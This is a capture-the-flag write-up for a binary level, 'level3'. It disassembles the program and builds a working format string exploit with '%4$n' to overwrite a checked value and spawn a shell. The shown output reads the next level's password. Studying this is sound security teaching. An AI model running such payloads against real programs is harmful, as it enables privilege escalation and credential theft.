 ## level3
`level3` also after running awaits the user to enter some input, once input is given it simply prints it to the standard output and exit. The function `main()` 
is pretty much the same as the one in `level2`
```
0x0804851a <+0>:	push   %ebp
0x0804851b <+1>:	mov    %esp,%ebp
0x0804851d <+3>:	and    $0xfffffff0,%esp
0x08048520 <+6>:	call   0x80484a4 <v>
0x08048525 <+11>:	leave
0x08048526 <+12>:	ret
```
The function simply sets the function prologue and then call the function `v()`.
Using `GBD` we disassembly the function `v()` to find out that it uses the `fgets()` instead of `gets()` function, `fgets()` has a bounding check what makes it secure
and we cannot use it to the __overflow__, we still have an option here, cuz the program after reading the input uses `printf()` to print it to the screen, we know there
is another techmnique we can use to gain control of a privileged program called __*format string exploit*__. Like __*buffer overflow*__ exploits, __*format string*__
also depend on programming mistakes. <br>
| Parameter| Input Type | Output Type |
|----------|------------|-------------|
|%d        | Value      | Decimal     |
|%u        | Value      | Unsigned decimal|
|%x        | Value      | Hexadecimal |
|%s        | Pointer    | String      |
|%n        | Pointer    | Number of bytes written so far|

The `%n` format parameter is unique in that it writes data without displaying anything. When a format function *(here `printf()`)* encouters a `%n` format parameter, it writes
the number of bytes that have been written by the function __address__ in the corresponding function argument.
 The `%n` can be used to write arbitrary data to potentially carefully-selected addresses.

Returning to the function `v()`, right after the call to `printf()` a value from *0x804988c* is moved into the register __eax__ and a comparison is
made:<br> `0x080484df <+59>:	cmp    eax,0x40`<br> if the value in the __address__ `0x080484df` is not equal to *0x40(64)* the program simply jumps to the `leave`
instruction and the function returns to the next instruction from `main()` that is the `leave` __address__ *0x08048525*.<br>Otherwise if value is equal to *0x40(64)* the execution will follow and the parameters to `<fwrite@plt>` will be loaded in the respectives register to print the value contained in the __address__ *0x8048600 ("Wait what?!\n")* right next the string contained in *0x804860d( "/bin/sh")* will be moved into *esp* <br> `0x0804850c <+104>:	mov    DWORD PTR [esp],0x804860d` <br> and the function `<system@plt>` will be called<br> `0x08048513 <+111>:	call   0x80483c0 <system@plt>` <br>So now we know that's what we want the function to do, so our task is to find a way to set the value at `0x804988c` to `0x40`, and this should be possible with `printf()`

Our task will be to put a format string specifier in the parameter passed to `printf()`<br>
We can check if `printf()` has access to the stack
```
(gdb) x/4xw $esp
0xbffff4d0:	0xbffff4e0	0x00000200	0xb7fd1ac0	0xb7ff37d0

~$ echo "%x %x %x %x" | ./level3
200 b7fd1ac0 b7ff37d0 25207825

~$ echo "AAAA %x %x %x %x %x %x" | ./level3
AAAA 200 b7fd1ac0 b7ff37d0 41414141 20782520 25207825
```

Here we can see our string `AAAA` is being placed in the stack in the 4th place, what we need here is to replace the `AAAA` string with the __address__ that's being checked in the function *0x804988c* like so *(remember about little end first)*
```
~$ python -c "print '\x8c\x98\x04\x08'+'%x %x %x %x'" | ./level3
200 b7fd1ac0 b7ff37d0 804988c
```
We will replace the *format string specifier* from `%x` to `%n` as what we are trying to do is set the __address__ value to *64* and as said above the `%n` can be used to write data to an __address__. <br> We will aslo be using the __Direct Parameter Access__ `($)` with *4* because as checked in our tests the `printf()` was placing it in the 4th position so the `%x` will become `%4$n` what means, write the number of bytes printed so for in the 4th position in the stack.<br>
*(Since this is being done on the command line and the dollar sign is a special charater, it must be scaped with a backslash)* <br>
So what we need is to create a string of *64 bytes (the number what will be checked in the v() function)* with the __address__ to write to *(that's is 4 bytes long)* plus *60 bytes* plus the *format string specifier* and that gives us: <br>
`(python -c "print(\x8c\x98\x04\x08) + 60 * 'A' + '%4\$n'")` <br>
Now just add the `cat` command with the `-` option to keep the standard entry open and get access to the shell <br>
```
(python -c "print('\x8c\x98\x04\x08' + 60 * 'A' + '%4\$n')"; cat) | ./level3

�AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Wait what?!
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```
